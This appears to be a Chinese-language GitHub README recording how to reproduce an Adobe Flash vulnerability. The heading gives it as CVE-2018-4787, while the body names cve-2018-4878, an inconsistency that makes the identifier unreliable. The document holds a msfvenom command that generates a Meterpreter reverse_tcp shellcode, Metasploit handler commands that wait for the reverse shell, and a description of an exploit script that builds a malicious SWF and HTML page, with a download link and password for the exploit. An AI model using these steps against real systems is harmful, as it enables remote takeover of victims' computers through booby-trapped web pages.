 `CVE-2018-4787 复现记录`

    漏洞程序:Adobe Flash

    影响版本:
    Adobe Flash 28.0.0.137及其之前的版本

    metasploit Framework个人笔记
    https://zhuanlan.zhihu.com/p/40091321

    Msfvenom生成shellcode
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=4444 -a x86 --platform win -f py > shellcode.txt 
    吧shellcode.txt里的shellcode覆盖py脚本里的shellcode
    然后访问
    Metasploit Listen
    use exploit/multi/handler
    set LHOST IP
    set LPORT 4444
    set payload windows/meterpreter/reverse_tcp 

### cve-2018-4878.py为exploit生成脚本，shellcode用metasploit生成，默认的为Windows弹计算器的payload。
### exploit.swf和index.html为cve-2018-4878.py生成的利用页面。
    
    视频与EXP链接：https://pan.baidu.com/s/15_obJtypew2RmqCux5Fdow 密码：1r6f
